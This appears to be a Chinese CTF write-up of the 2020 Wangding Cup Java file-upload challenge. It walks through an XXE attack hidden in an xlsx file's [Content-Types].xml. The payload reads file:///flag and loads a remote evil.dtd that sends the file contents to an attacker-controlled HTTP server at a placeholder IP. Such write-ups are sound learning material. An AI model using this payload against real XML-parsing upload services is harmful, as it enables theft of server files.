






# 2020网鼎杯---Java文件上传wp

# 前言

[一篇文章读懂Java代码审计之XXE](https://samny.blog.csdn.net/article/details/104426472)看过我这篇博客应该不难，没看过建议在看看。

---

# 题解

下载了所有的class发现需要上传xlsx poi  
开头必须是execl  


- 新建execl

-1.xlsx文件，修改后缀名execl  
-1.xlsx.zip解压。  


- 修改[Content-Types].xml

  ```xml
  <!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "file:///flag">
  <!ENTITY % remote SYSTEM "http://ip:8089/evil.dtd">
  %remote;
  %all;
  ]>
  <root>&send;</root>
  ```

  
- 重新打包成`excel-1.xlsx`，文件名一定不能错。
- 在服务器上新建一个`evil.etd`文件。  
  

```c
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:8089/%file;'>">
```

---

- 然后直接上传，查看服务器http记录。




